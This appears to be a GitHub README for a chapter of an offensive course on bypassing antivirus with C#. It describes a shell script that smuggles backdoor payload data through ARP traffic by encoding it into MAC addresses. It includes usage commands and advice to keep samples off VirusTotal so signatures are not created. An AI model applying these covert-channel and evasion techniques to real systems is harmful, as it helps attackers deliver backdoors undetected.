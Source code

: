 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 8 : Transferring Backdoor Payloads by ARP Traffic

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 8 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH8

Related Video : 

Video 1 C# Code : https://youtu.be/qDLicXj7Vuk

Video 2 (Linux only) Script Code : https://www.youtube.com/watch?v=O-llNZ9S8Mo



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_ARP.sh  help :

Example Step1: (Client Side ) ./NativePayload_ARP.sh -s text-file eth0 delay x"

Example Step2: (Server Side ) ./NativePayload_ARP.sh -a vboxnet target-IPv4 "

example (IPv4 : 192.168.56.101) : ./NativePayload_ARP.sh -s mytext.txt eth0 delay 3"

example (IPv4 : 192.168.56.1) : ./NativePayload_DNS2.sh -a vboxnet 192.168.56.101 "

Description: with Step1 you will inject Data to MAC address for eth0 , with Step2 you can have this text file via Scanning target-system by ARP traffic (Using Arping tool)"

# Note : "NativePayload_ARP.sh" tested by (arping utility, iputils-s20161105 and kali linux 2018.2)

![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x1.png)


![](https://github.com/DamonMohammadbagher/NativePayload_ARP/blob/master/Chapter%208%20-%20Transferring%20Backdoor%20Payloads%20by%20ARP%20Traffic/x2.png)
